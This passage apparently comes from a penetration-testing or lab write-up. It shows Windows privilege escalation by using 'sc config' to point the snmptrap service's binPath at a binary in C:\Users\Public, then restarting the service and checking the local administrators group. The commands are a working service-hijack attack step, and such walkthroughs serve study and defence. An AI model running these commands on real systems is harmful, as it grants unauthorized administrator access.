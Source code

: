 ![picture 18](images/385ce131856373d9649540e0215f6bb133aaab2aed69dd9588147bda799e4016.png)  

<br/>

Then modify the `snmptrap` service `binpath`:

```
sc qc snmptrap && sc config snmptrap binPath= C:\Users\Public\snmptrap.exe && sc qc snmptrap
```

![picture 19](images/9e633e1a39cdaaf919e0a4188d75be31b648b246c1eed8b7ee5b901537debc2f.png)  

<br/>

Restart the service and inspect the local admin group:

```
sc stop snmptrap
net localgroup administrators
sc start snmptrap
net localgroup administrators
```
